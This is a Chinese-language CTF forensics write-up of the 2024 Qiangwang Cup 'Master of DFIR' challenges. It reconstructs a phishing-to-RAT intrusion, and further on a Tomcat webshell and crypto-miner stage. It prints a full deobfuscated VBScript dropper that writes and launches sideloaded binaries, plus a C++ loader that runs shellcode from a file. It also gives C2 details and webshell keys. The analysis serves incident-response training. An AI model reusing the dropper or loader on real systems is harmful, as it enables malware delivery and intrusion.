

2024 强网杯 Master of DFIR 系列 题目分析

- Master of DFIR - Phishing
- Master of DFIR - Coffee

<!-- truncate -->

本题存在有动态附件机制，本题目分析基于 [CTF-Archives/2024-qwbs8: 第八届 “强网杯” 全国网络安全挑战赛](https://github.com/CTF-Archives/2024-qwbs8) 所存档的附件 [master_of_dfir.zip - Release 附件下载 · CTF-Archives/2024-qwbs8](https://github.com/CTF-Archives/2024-qwbs8/releases/download/v0.1/master_of_dfir.zip) 进行编写

感谢 [空白爷 - crazyman_army](https://crazymanarmy.github.io/) 为本次强网杯贡献的 Master of DFIR 系列题目

本分析所使用的题目信息基于 [QWB S8 2024 Quals(Jeopardy) - r3kapig's notion](https://r3kapig-not1on.notion.site/QWB-S8-2024-Quals-Jeopardy-133ec1515fb980a38f76ea397defd07d)

<div style={{textAlign:'center'}}>


</div>

## Master of DFIR - Phishing

:::info 题目描述

饥渴 C 猫是一个刚刚入职的员工，但是最近他发现自己的电脑变得越来越奇怪。可能由于是之前他接受的一封奇怪的邮件，于是饥渴 C 猫找到了你, 他希望你作为取证 - 应急响应大师可以帮忙。你可以完成调查到底发生了什么并且填写相关的调查报告。

:::

:::note Hints

第六问指得是解密完载荷后可以看到一个 s******s 的函数 (* 不代表正确长度) 然后你需要去提交该函数的参数, 这个参数是需要解字符串混淆后的一段字符串 并且将这段字符放到 cyberchef MD5 一下

第 12 问的最终载荷指得是 RAT 的载荷 java 的马和本题目毫无关系

:::

### task1

> 1. 攻击者的邮箱是什么? (注意: MD5(攻击者邮箱), 以 cyberchef 的为准) 示例: 9b04d152845ec0a378394003c96da594
>
> 2. 受害者的邮箱是什么? (注意: MD5(受害者邮箱), 以 cyberchef 的为准) 示例: 9b04d152845ec0a378394003c96da594

在附件中有两个文件：

- 关于组织参加第八届 “强网杯” 全国网络安全挑战赛的通知. eml
- challenge.pcapng

由于是提取邮箱信息，那么关注点放在 eml 文件上

在 eml 文件的 `From` 字段和 `To` 字段可以得到收件邮箱地址和发信邮箱地址

```plaintext
From: "alice@flycode.cn" <alice@flycode.cn>
To: bob <bob@flycode.cn>
```

计算哈希

```plaintext
攻击者的邮箱:
alice@flycode.cn    ->  a8cd5b4ba47e185d4a69a583fde84da5

受害者的邮箱:
bob@flycode.cn      ->  b9cae449f959162f0297fa43b458bd66
```

即可得到答案

```flag
1. a8cd5b4ba47e185d4a69a583fde84da5
2. b9cae449f959162f0297fa43b458bd66
```

### task2

> 1. 攻击者所投放的文件 md5 是什么? (注意: 以 md5sum 的结果为准) 示例: 33ec9f546665aec46947dca16646d48e
>
> 2. 攻击者所投放文件的密码是什么? 示例: 000nb

在 eml 文件中，可以发现有附件的存在



```bash
PS D:\Downloads\master_of_dfir> get-fileHash -Algorithm MD5 ".\ 关于组织参加第八届 `“强网杯 `” 全国网络安全挑战赛的通知（11 月 2 日至 3 日举行线上赛）.zip"

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             F436B02020FA59F3F71E0B6DCAC6C7D3                                       D:\Downloads\master_of_dfir \ 关…
```

同时，在邮件正文中

```plaintext
本届 "强网杯" 拟于 11 月 02 日至 03 日举行线上赛，11 月下旬举行线下赛。 请各学校、 网信企业及机构关注 “强网竞赛” 微信公众号，报名参加竞赛活动，锻炼队伍、 深化交流， 进一步提升网络安全保障能力和水平。详细邀请文件见附件压缩包, 密码: 2024qwbs8
```

可以得到附件中压缩包的密码

```flag
1. f436b02020fa59f3f71e0b6dcac6c7d3
2. 2024qwbs8
```

### task3

> 1. 攻击者所使用的攻击载荷后缀是什么？ 示例: lnk
>
> 2. 攻击者所使用的攻击载荷文件 windows 默认的打开方式的全称是什么? 示例: Microsoft Windows Based Scripting Host

使用已知密码将压缩包进行解压，得到：关于组织参加第八届 “强网杯” 全国网络安全挑战赛的通知（11 月 2 日至 3 日举行线上赛）.msc

`msc` 文件的文件缩略图经过篡改，改为了 `pdf` 文件的缩略图，可以断定为经过伪造的恶意文件

`msc` 文件的默认打开方式，是 Microsoft 管理控制台（Microsoft Management Console (MMC)）

```flag
1. msc
2. Microsoft Management Console
```

### task4

> 1. 攻击者所投放样本的初始执行语句在该攻击载荷文件的第几行? 示例: 20

直接使用文本编辑器打开 `msc` 文件，在第 92 行可以发现 Javascript 载荷，在第 97 行可以发现执行 Javascript 载荷的语句


```flag
1. 97
```

### task5

> 1. 经过初始执行后, 攻击者所加载的第二部分载荷所使用的语言是什么? 示例: javascript

将第 92 行的 Javascript 载荷提取出来


可以发现


即可确认答案

```flag
1. VBScript
```

### task6

> 1. 攻击者所进行的第二部分载荷其将白 EXE 存在了什么地方? (注意: 需要提供完成的解混淆后的第二部分载荷 s*******s 函数的参数) 提交需要 MD5(参数内容) 以 Cyberchef 结果为准 示例: 9b04d152845ec0a378394003c96da594
>
> 2. 攻击者所进行的第二部分载荷其将黑 DLL 存在了什么地方? (注意: 需要提供完成的解混淆后的第二部分载荷 s*******s 函数的参数) 提交需要 MD5(参数内容) 以 Cyberchef 结果为准 示例: 9b04d152845ec0a378394003c96da594

将 Javascript 载荷中的 VBScript 提取出来，可以发现其中使用 ASCII 编码进行了混淆


在 [Visual Basic (VB.NET) - OneCompiler](https://onecompiler.com/vb/) 中，使用以下 VB 代码进行解混淆

```vb
Public Module Program
    Public Sub Main(args() As String)
        '按顺序计算每个 Chr 函数并连接字符串
        Dim result As String = Chr(98) & Chr(Int("105")) & Chr(110)

        ' 输出结果
        Console.WriteLine(result)
    End Sub
End Module
```

:::warning

在 Visual Basic 中，原语句为 `Chr(Int("&H6f"))` 需要改为 `Chr(Convert.ToInt32("6f", 16))`

或者改为 `Chr(&H6f)`

可以使用以下脚本辅助处理

```python
with open("./data.txt", "r") as f:
    data = f.read().strip()

data = data.replace("&H", "##")

data = data.split("&")

data = [i.replace("##", "&H") for i in data]

for i in range(len(data)):
    if 'Int("&H' in data[i]:
        data[i] = data[i].replace('Int("&H',"&H")
        data[i] = data[i].replace('")', "")

print("&".join(data))
```

:::

<details>

<summary> 解密后的 vb 代码 </summary>

```vb
Dim mscLL
mscLL="_MSC"
For i=1 to Len(mscLL) Step 4
oFmXCTg=oFmXCTg & ChrW(CLng("&"&Chr(72) & Mid(mscLL,i,4)))
Next
Set RTcxFmy=CreateObject("Microsoft.XMLDOM")
RTcxFmy.Async=False
RTcxFmy.Load(oFmXCTg)
AJ8p
Function Xk7fbp8v(inp)
Dim q4XPbvoV
Dim HxWK
Set q4XPbvoV=CreateObject("MSXML2.DOMDocument")
Set HxWK=q4XPbvoV.createElement("a")
HxWK.DataType="bin.base64"
HxWK.Text=inp
Xk7fbp8v=HxWK.nodeTypedValue
End Function
Function AJ8p()
On Error Resume Next
Dim AgUvcCuHzzbl
Dim DfAV40y
Dim gwqhhV
Dim JJNe
Dim Mw7U
Dim O8B1OrkTW
OMxa="51734e8e7ec47ec753c252a07b2c516b5c4a201c5f3a7f51676f201d516856fd7f517edc5b895168631162188d5b7684901a77e5ff08003100316708003265e581f3003365e54e3e884c7ebf4e0a8d5bff09002e007000640066"
Set AgUvcCuHzzbl=CreateObject("WScript.Shell")
Set DfAV40y=CreateObject("Scripting.FileSystemObject")
O8B1OrkTW=AgUvcCuHzzbl.ExpandEnvironmentStrings("%ProgramFiles%")
P59b6scR2TD9=O8B1OrkTW & "\Cloudflare"
DfAV40y.CreateFolder(P59b6scR2TD9)
gwqhhV=P59b6scR2TD9 & "\GUP.exe"
JJNe=P59b6scR2TD9 & "\libcurl.dll"
For i=1 to Len(OMxa) Step 4
FRURX=FRURX & ChrW(CLng("&"&Chr(72) & Mid(OMxa,i,4)))
Next
Mw7U=DfAV40y.GetSpecialFolder(2) & Chr(92) & FRURX
Set aZPHxtz4=RTcxFmy.selectNodes("/MMC_ConsoleFile/BinaryStorage/Binary[@Name='CONSOLE_TREE']" )
rqsgO2mBfu=aZPHxtz4(0).text
UoLAunW=Xk7fbp8v(rqsgO2mBfu)
Dim jXnaWeLQ12
Set jXnaWeLQ12=CreateObject("ADODB.Stream")
jXnaWeLQ12.Type=1
jXnaWeLQ12.Open
jXnaWeLQ12.Write UoLAunW
jXnaWeLQ12.SaveToFile Mw7U,2
AgUvcCuHzzbl.run """"& Mw7U &"""",1,false
Set aZPHxtz4=RTcxFmy.selectNodes("/MMC_ConsoleFile/BinaryStorage/Binary[@Name='CONSOLE_MENU']" )
Ze1C=aZPHxtz4(0).text
Set aZPHxtz4 = RTcxFmy.selectNodes("/MMC_ConsoleFile/BinaryStorage/Binary[@Name='CONSOLE_PANE']" )
JozMh9jg=aZPHxtz4(0).text
AnZUOdqFuMEw=Xk7fbp8v(Ze1C)
s4fr2y4Q7lvQ=Xk7fbp8v(JozMh9jg)
Dim cHh5wARUext
Set cHh5wARUext=CreateObject("ADODB.Stream")
cHh5wARUext.Type=1
cHh5wARUext.Open
cHh5wARUext.Write AnZUOdqFuMEw
cHh5wARUext.SaveToFile gwqhhV,2
Dim BKzG1ldRw7
Set BKzG1ldRw7=CreateObject("ADODB.Stream")
BKzG1ldRw7.Type=1
BKzG1ldRw7.Open
BKzG1ldRw7.Write s4fr2y4Q7lvQ
BKzG1ldRw7.SaveToFile JJNe,2
AgUvcCuHzzbl.run """"& gwqhhV &"""" & "t 8.8.8.8",0,false
End Function
Public Function i9Vu0(ByVal Value,ByVal Shift)
i9Vu0=Value
If Shift>0 Then
If Value>0 Then
i9Vu0=Int(i9Vu0/(2^Shift))
Else
If Shift>31 Then
i9Vu0=0
Else
i9Vu0=i9Vu0 And &H7FFFFFFF
i9Vu0=Int(i9Vu0/(2^Shift))
i9Vu0=i9Vu0 Or 2^(31-Shift)
End If
End If
End If
End Function
Public Function PIvwo4QDjBC(ByVal Value,ByVal Shift)
PIvwo4QDjBC=Value
If Shift>0 Then
Dim i
Dim m
For i=1 To Shift
m=PIvwo4QDjBC And &H40000000
PIvwo4QDjBC=(PIvwo4QDjBC And &H3FFFFFFF)*2
If m<>0 Then
PIvwo4QDjBC=PIvwo4QDjBC Or &H80000000
End If
Next
End If
End Function
Public Function eUBp1LoLYEMy(ByVal num)
Const rkLx=5570645
Const beweT2U=52428
Const d1=7
Const d2=14
Dim t,u,out
t=(num Xor i9Vu0(num,d2)) And beweT2U
u=num Xor t Xor PIvwo4QDjBC(t,d2)
t=(u Xor i9Vu0(u,d1)) And rkLx
out=(u Xor t Xor PIvwo4QDjBC(t,d1))
eUBp1LoLYEMy=out
End Function
Public Function FTKaWvcYaGWt(ByRef MiCzi9())
Dim i,fr,upJNNa,raw
Dim a,b,c,d
Dim YBx4PZLTHSQ1
Dim EJSi8qJd0()
Dim a2,b2
YBx4PZLTHSQ1=""
For i=0 To (UBound(MiCzi9)/4+1)
fr=i*4
If fr>UBound(MiCzi9) Then
Exit For
End If
upJNNa=0
upJNNa=upJNNa Or PIvwo4QDjBC(MiCzi9(fr+3),24)
upJNNa=upJNNa Or PIvwo4QDjBC(MiCzi9(fr+2),16)
upJNNa=upJNNa Or PIvwo4QDjBC(MiCzi9(fr+1),8)
upJNNa=upJNNa Or MiCzi9(fr+0)
raw=eUBp1LoLYEMy(upJNNa)
a=Chr(i9Vu0((raw And &HFF000000),24))
b=Chr(i9Vu0((raw And 16711680),16))
c=Chr(i9Vu0((raw And 65280),8))
d=Chr(i9Vu0((raw And 255),0))
YBx4PZLTHSQ1=YBx4PZLTHSQ1+d+c+b+a
Next
FTKaWvcYaGWt=YBx4PZLTHSQ1
End Function
Public Function t4zFxxgg22(MiCzi9)
Dim CYhV8N(),Liefs(),arrayByte3(255)
Dim Rp7jaY2jOqr(63),arrayLong5(63)
Dim Mbt0mzk6(63),NALQp0Gu3
Dim b7Z9n8,iter,VKkZEf,ZyvKLLyyHHD
Dim YBx4PZLTHSQ1
MiCzi9=Replace(MiCzi9,vbCr,vbNullString)
MiCzi9=Replace(MiCzi9,vbLf,vbNullString)
ZyvKLLyyHHD=Len(MiCzi9) Mod 4
If InStrRev(MiCzi9,"==") Then
b7Z9n8=2
ElseIf InStrRev(MiCzi9,""+"=") Then
b7Z9n8=1
End If
For ZyvKLLyyHHD=0 To 255
Select Case ZyvKLLyyHHD
Case 65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90
arrayByte3(ZyvKLLyyHHD)=ZyvKLLyyHHD-65
Case 97,98,99,100,101,102,103,104,105,106,107,108,109,110,111,112,113,114,115,116,117,118,119,120,121,122
arrayByte3(ZyvKLLyyHHD)=ZyvKLLyyHHD-71
Case 48,49,50,51,52,53,54,55,56,57
arrayByte3(ZyvKLLyyHHD)=ZyvKLLyyHHD+4
Case 43
arrayByte3(ZyvKLLyyHHD)=62
Case 47
arrayByte3(ZyvKLLyyHHD)=63
Case Else
End Select
Next
For ZyvKLLyyHHD=0 To 63
Rp7jaY2jOqr(ZyvKLLyyHHD)=ZyvKLLyyHHD*64
arrayLong5(ZyvKLLyyHHD)=ZyvKLLyyHHD*4096
Mbt0mzk6(ZyvKLLyyHHD)=ZyvKLLyyHHD*262144
Next
Liefs=StrConv(MiCzi9,vbFromUnicode)
ReDim CYhV8N((((UBound(Liefs)+1)\4)*3)-1)
For iter=0 To UBound(Liefs) Step 4
NALQp0Gu3=Mbt0mzk6(arrayByte3(Liefs(iter)))+arrayLong5(arrayByte3(Liefs(iter+1)))+Rp7jaY2jOqr(arrayByte3(Liefs(iter+2)))+arrayByte3(Liefs(iter+3))
ZyvKLLyyHHD=NALQp0Gu3 And 16711680
CYhV8N(VKkZEf)=ZyvKLLyyHHD\65536
ZyvKLLyyHHD=NALQp0Gu3 And 65280
CYhV8N(VKkZEf+1)=ZyvKLLyyHHD\256
CYhV8N(VKkZEf+2)=NALQp0Gu3 And 255
VKkZEf=VKkZEf+3
Next
YBx4PZLTHSQ1=StrConv(CYhV8N,vbUnicode)
If b7Z9n8 Then YBx4PZLTHSQ1=Left(YBx4PZLTHSQ1,Len(YBx4PZLTHSQ1)-b7Z9n8)
t4zFxxgg22=FTKaWvcYaGWt(StrConv(YBx4PZLTHSQ1,vbFromUnicode))
t4zFxxgg22=qY7AOEpU1wn(t4zFxxgg22,"~")
End Function
Function qY7AOEpU1wn(str,chars)
Dim fqX3dbudmU
Dim XVZECKbx()
XVZECKbx=Split(str,chars)
fqX3dbudmU=UBound(XVZECKbx,1)
If fqX3dbudmU<>0 Then
str=Left(str,Len(str)-fqX3dbudmU)
End If
qY7AOEpU1wn=str
End Function
```

</details>

根据代码，可以确定文件的存放位置

```plaintext
/MMC_ConsoleFile/BinaryStorage/Binary[@Name='CONSOLE_MENU'] -> 69b23cfd967d07c39d1517e2a3c37e34

/MMC_ConsoleFile/BinaryStorage/Binary[@Name='CONSOLE_PANE'] -> d2fabdcc28074462ac2379101836c938
```

即可确定答案

```flag
1. 69b23cfd967d07c39d1517e2a3c37e34
2. d2fabdcc28074462ac2379101836c938
```

### task7

> 1. 攻击者使用的这个白 EXE 加载黑 DLL 的手法所对应的 MITRE ATT&CK ID 是什么? (注意: 请注意示例的提示提交大类即可不需要细化到分项) 示例: T1000

根据题目，已经确定使用的手法为 白加黑 方案，即使用白名单程序（例如证书验证）加载恶意 DLL 库文件，借此规避安全软件的检测

根据攻击手法，可以确定到 `MITRE ATT&CK ID T1574`

:::info T1574 Hijack Execution Flow - 劫持执行流

对手可能通过劫持操作系统运行程序的方式来执行自己的恶意负载。劫持执行流的目的可能是为了持久性，因为这种劫持的执行可能会随着时间的推移再次发生。对手也可能利用这些机制来提升权限或规避防御措施，例如应用程序控制或其他执行限制。

对手劫持执行流的方式有很多种，包括通过操控操作系统定位要执行的程序。操作系统定位程序所需库文件的方式也可能被拦截。操作系统查找程序 / 资源的路径，例如文件目录，或在 Windows 中的注册表，也可能被污染，从而包括恶意负载。

:::

```flag
1. T1574
```

### task8

> 1. 攻击者所使用的黑 DLL 劫持了原始 DLL 的哪个函数? 示例: main

首先，需要将白 EXE 文件和黑 DLL 文件提取出来

使用文本编辑器打开 msc 文件，定位到


将两个 Base64 提取出来解码，得到的就是 `GUP.exe` 和 `libcurl.dll`

对 `libcurl.dll` 进行逆向分析


对库函数进行检查，大部分函数都是 `dword` 返回，但是 `curl_easy_init()` 函数在 `dword` 返回之前调用了 `sub_10001240()` 函数

```c
int curl_easy_init()
{
    sub_10001240(&unk_100080B0, dwSize);
    return dword_10029B80();
}
```

就 `curl_easy_init()` 函数多了一步函数调用，可以怀疑是 `curl_easy_init()` 函数被篡改

```flag
1. curl_easy_init
```

### task9

> 1. 攻击者所使用的黑 DLL 解密下一阶段载荷所使用的算法是什么? 示例: chacha20
>
> 2. 攻击者所使用的黑 DLL 解密下一阶段载荷所使用的 Key 是什么? (注意: 请提交一段小写的十六进制字符串) 示例: 1122334455

跟进分析 `sub_10001240()` 函数，直接将反编译结果丢给 `ChatGPT 4o` 可以得到以下回复

:::info 赞美 GPT

该反编译结果涉及的代码实现了一个加密算法，通常是基于一种类似 RC4 的伪随机数生成器（PRNG）模式，结合了状态混合、字节异或（XOR）操作和字节交换的操作。以下是对该加密算法的分析：

1. 初始化阶段
   - 字符串初始化：
     - `v41` 和 `v42` 的值（`-1952638222` 和 `23838`）通过计算 `strlen` 和 `8 * v1` 来初始化状态。
     - 如果字符串的长度乘以 8 小于 32，则初始化一个 32 字节大小的缓冲区。

   - 内存分配：
     - 使用 `malloc` 为加密 / 解密过程分配内存，根据字符串的长度来决定分配大小。

2. 伪随机数生成器（PRNG）**
   - 使用一系列位运算和 `SSE` 指令（如 `_mm_and_ps`、`_mm_add_epi32`、`_mm_shuffle_epi32` 等）生成伪随机数。此过程涉及以下几个步骤：
     - 将每个输入的字节经过一系列的位移、添加常量和按位与操作，从而生成伪随机的字节流。
     - 每次生成的新随机数都经过了混合、打包（`_mm_packus_epi16`）和转换（`_mm_cvtsi128_si32`）操作。
     - 生成的随机数被用于更新密钥流缓冲区 `v34` 中的数据。

3. 加密过程
   - 加密循环：
     - 采用类似 RC4 的加密方式，通过对每个字节执行异或（XOR）操作来加密数据：
       - 每次计算新的位置索引并通过 `v34` 数组中的值来更新和修改加密的状态。
       - `this[v25] ^= v34[(v27 + (unsigned __int8)v34[v38]) % v35];` 这一行表示对输入数据（`this`）进行加密处理。
     - 在某些情况下，会执行字节交换（`v34[(v25 + v38) % v35] ^= v40;`）以进一步打乱加密状态。

4. 密钥调度与动态调整
   - 使用 `v41`、`v42` 和伪随机数生成器的输出作为动态的密钥调度算法（KSA），这个算法会根据输入的大小和字节值来修改密钥流。
   - 随机字节生成和密钥流的混合帮助加强了加密算法的复杂性，使得输出加密结果更加难以预测。

5. 加密结果的保存与输出
   - 加密后的数据会存入 `lpProc` 中，并最终通过 `memcpy` 复制到外部。
   - 在加密过程中，使用了一些图形界面相关的 API（如 `GetDC(0)` 和 `EnumFontsW`），这可能与数据加密的用途无关，或是代码在处理加密后的数据时对其进行了图形化的展示或输出。

6. 总结
   - 该算法整体上模仿了经典的流密码算法，如 RC4，但它结合了复杂的状态混合和字节交换机制。通过多个阶段的位操作和伪随机数生成，能够加密输入数据。
   - 该加密算法的安全性依赖于密钥调度算法和伪随机数生成的复杂度，但其依旧容易受到一些常见的密码分析攻击（如频率分析）的影响。

7. 可能的改进：
   - 引入更强的混合算法，如更复杂的加密模式（例如 AES）来增强算法的抗攻击性。
   - 加密过程中加入更多的动态变化和不同的加密子算法，避免潜在的模式暴露。

:::

:::warning

需要注意的是，按照 RC4 标准实现的源代码进行对应，会发现并非标准的 RC4 实现，不可以直接抄板子进行解密

:::

对于 RC4 算法的 key，可以注意


将 `v41`,`v42` 作为 `Char` 变量进行查看，得到 `\x5D\x1E\x8B\x9D\x1A\xF2`

由于 `key` 是使用小端序进行储存，对其进行转换即可得到答案

```flag
1. RC4
2. f21a9d8b1e5d
```

### task10

> 1. 攻击者所使用的下一阶段载荷的回连 C2 是什么? (注意: 需要提供 ip 地址: 端口的形式) 示例: 127.0.0.1:5100

首先，先将 `libcurl.dll` 中的载荷进行提取

分析 `sub_10001240()` 函数的调用

```c
sub_10001240(&unk_100080B0, dwSize);
```

根据函数定义

```c
int __thiscall sub_10001240(_BYTE *this)
```

以及对于函数逻辑的基本分析，可以确定数据储存在 `&unk_100080B0` 中，那么可以直接在 `sub_10001240()` 函数的 `memcpy(lpProc, this, v23);` 语句下断点


然后配置动态调试的参数


启动调试


查看 `byte_67D880B0` 的内存


对其 dump 出来，可以发现是可执行数据


下载下来，反编译，得到


经过分析，可以确定 `sub_4013E0()` 函数是下载函数，那么在 `v8 = (void (*)(void))sub_4013E0(v7);` 语句下断点进行调试


提取出来具体的参数

```c
sub_7E13E0("192.168.57.119", 6000, "files/1730391917.bin")
```

这就是下载下一阶段载荷的语句，并且这与 `challenge.pcapng` 流量数据相吻合


跟进流量包，此部分执行之后肯定会执行回连操作


基于此即可确定回连地址

```flag
1. 192.168.57.119:6000
```

### task11

> 1. 攻击者所使用最终阶段载荷所使用的加密算法是什么? 示例: DES

首先，需要从 `pacpng` 文件中，将 `1730391917.bin` 文件 dump 出来

使用 Shellcode Loader 加载 `1730391917.bin` 文件

:::warning

这份代码需要使用 Visual Studio 来编译

g++ 编译会出现内存访问非法的问题

:::

:::info

亦可以使用 [volexity/donut-decryptor: Retrieve inner payloads from Donut samples](https://github.com/volexity/donut-decryptor) 进行静态提取

:::

```cpp
#include <windows.h>
#include <iostream>
#include <fstream>
#include <vector>

int main()
{

    // 输入文件名
    std::string filename;
    std::cout << "Enter the shellcode filename:";
    std::cin >> filename;

    // 打开文件 1.bin，读取 shellcode
    std::ifstream file(filename, std::ios::binary | std::ios::ate);
    if (!file.is_open())
    {
        std::cerr << "Failed to open shellcode file!" << std::endl;
        return -1;
    }

    // 获取文件大小，并读取内容到 buffer 中
    std::streamsize size = file.tellg();
    file.seekg(0, std::ios::beg);

    std::vector<unsigned char> shellcode(size);
    if (!file.read(reinterpret_cast<char *>(shellcode.data()), size))
    {
        std::cerr << "Failed to read shellcode file!" << std::endl;
        return -1;
    }
    file.close();

    // 分配内存，设置为可执行、可写和可读
    void *execMem = VirtualAlloc(
        0,                // 自动选择分配地址
        shellcode.size(), // 分配的大小
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE // 设置页属性为可执行
    );

    if (execMem == NULL)
    {
        std::cerr <<"VirtualAlloc failed:" << GetLastError() << std::endl;
        return -1;
    }

    // 将 shellcode 复制到分配的内存
    memcpy(execMem, shellcode.data(), shellcode.size());

    // 创建一个函数指针，指向 shellcode
    auto shellcodeFunc = reinterpret_cast<void (*)()>(execMem);

    // 执行 shellcode
    std::cout << "Executing shellcode..." << std::endl;
    shellcodeFunc(); // 执行 shellcode

    // 释放分配的内存
    VirtualFree(execMem, 0, MEM_RELEASE);

    return 0;
}
```

并且使用 `x64debug` 进行调试


当 Shellcode 加载到内存并执行之后，对程序的内存空间扫描字符串，可以发现


```plaintext
pmseindw -host=192.168.57.119:6000 -key=pJB`-v)t^ZAsP$|r
```

根据 key 的长度，以及程序本身的流量包


定位到 [Ptkatz/OrcaC2: OrcaC2 是一款基于 Websocket 加密通信的多功能 C&C 框架，使用 Golang 实现](https://github.com/Ptkatz/OrcaC2)

可以确定加密算法为 `AES`

```flag
1. AES
```

### task12

> 1. 攻击者所使用最终阶段载荷所使用的密钥的 MD5 是什么? (注意: MD5(密钥内容), 以 cyberchef 的为准) 示例: 9b04d152845ec0a378394003c96da594

在上一题中，提取出来字符串

```plaintext
pmseindw -host=192.168.57.119:6000 -key=pJB`-v)t^ZAsP$|r
```

计算哈希

```plaintext
pJB`-v)t^ZAsP$|r -> a524c43df3063c33cfd72e2bf1fd32f6
```

即可得到答案

```flag
1. a524c43df3063c33cfd72e2bf1fd32f6
```

### task13

> 1. 攻击者使用了什么家族的 C2? 示例: PoshC2

在 task11 中已经得到了答案

```flag
1. OrcaC2
```

## Master of DFIR - Coffee

:::info 题目描述

随着调查的深入你发现情况比你预想得要复杂很多, 你逐步发现了更多入侵的痕迹

"看起来不能这么早就休息了" 于是你继续投身于下一步的调查中

你需要继续完成题目帮助饥渴 C 猫发掘所有的真相

:::

### task1

> 1. 受害者主机名是什么? 示例: DESKTOP-J6QZVBD
>
> 2. 受害者操作系统是什么版本? 以 C2 回显为准 示例: Microsoft Windows 7 专业版

已经得知 RAT 的通信 AES key 之后，就可以解密 RAT 通信的返回包


执行解密


即可得到答案

```flag
1. DESKTOP-28DGVAU
2. Microsoft Windows 10 教育版
```

### task2

> 1. 控制端 ClientId 是多少? 示例: c723d01b-5dc1-2601
>
> 2. 受害者主机的 systemId 是多少? 示例: 1b0679be72ad976ad5d491ad57a5eec0

在上一题中就有

```flag
1. a55330f4-83c2-4081
2. 9e4a7e9ebdd51913b5d724be14868e85
```

### task3

> 1. 攻击者下载的文件的保存名是什么？ 示例: flag.txt
>
> 2. 内网运行的云服务的名称叫什么 示例: 金山云

继续解密服务端的返回包


根据字段 `SaveFileName` 可以确定执行了文件下载，文件名为 `history`

同时，攻击者获取了一个 Sqlite 文件


即可确定答案

```flag
1. history
2. 浩瀚云
```

### task4

> 1. tomcat 的用户名和密码是多少? 示例: admin:admin

在后续的流量中，发现攻击者尝试爆破 Tomcat 的凭据


排查后续流量，这个没有返回 401


即可确定正确的凭据 `dG9tY2F0OmJlYXV0aWZ1bA==`

```plaintext
dG9tY2F0OmJlYXV0aWZ1bA== -> tomcat:beautiful
```

即可得到答案

```flag
1. tomcat:beautiful
```

### task5

> 1. webshell 的路径? 示例:/memshell/favicon.ico
>
> 2. 攻击者上传的文件名? 示例: flag.txt

在攻击者成功登录之后，执行了上传


将攻击者上传的 `help.war` 提取出来分析


即可确定答案

```flag
1. /help.jsp
2. help.war
```

### task6

> 1. webshell 中加密算法的密钥是什么, 若有多个, 以加密顺序用_连接 示例: keya_keyb
>
> 2. 黑客使用 webshell 管理工具是什么? (注意: 全小写) 示例: antsword

攻击者上传的 war 文件中的 jsp 文件，使用动态加载了 Java Class


jsp 文件中存在有多个 Java Class


逐个分析，可以发现


并且 Java Class 的操作方式，符合冰蝎（behinder）的逻辑

即可确定答案

```flag
1. b42e327feb5d923b_82ca9b43c1b8ef8c
2. behinder
```

### task7

> 1. 被黑客窃取的云存储服务的管理员账户和密码是多少? 示例: admin:admin
>
> 2. 攻击者通过 webshell 上传的恶意文件是什么? 示例: malware.exe

已经知道 Webshell 的加解密实现之后，就可以编写处理流程

```plaintext
From_Base64('A-Za-z0-9+/=',true,false)
XOR({'option':'UTF8','string':'2ca9b43c1b8ef8c8'},'Standard',false)
AES_Decrypt({'option':'UTF8','string':'b42e327feb5d923b'},{'option':'Hex','string':''},'ECB/NoPadding','Raw','Raw',{'option':'Hex','string':''},{'option':'Hex','string':''})
Zlib_Inflate(0,0,'Adaptive',false,false)
```

逐个解密服务端的返回包，可以发现


将其中的 `msg` 数据提取出来


将 Sqlite 数据库文件导出，发现


查询 MD5 彩虹表，得到

```plaintext
6fb5d7cd1041571a52c0b23707239a08 -> vipvip123
```

并且继续追踪流量，解密请求包，可以发现


对 Java Class 进行反编译


即可得到答案

```flag
1. hhcloud:vipvip123
2. e.ps1
```

### task8

> 1. 恶意脚本设置的计划任务叫什么? 示例: Miner
>
> 2. 挖矿程序落地的文件是什么？ 示例: miner.exe

继续跟进流量


解密得到

```json
{
    "msg": "成功: 成功创建计划任务 \"Update service for Windows Service\"。\r\n",
    "status": "c3VjY2Vzcw=="
}
```

对所有流量的请求包进行解密，还可以找到攻击者部署的文件 `sys_update.exe`

```flag
1. Update service for Windows Service
2. sys_update.exe
```

### task9

> 1. 该挖矿程序回连的矿池域名是什么? 示例: `www.baidu.com`

攻击者直接请求了挖矿程序的配置文件


在其中找到以下记录

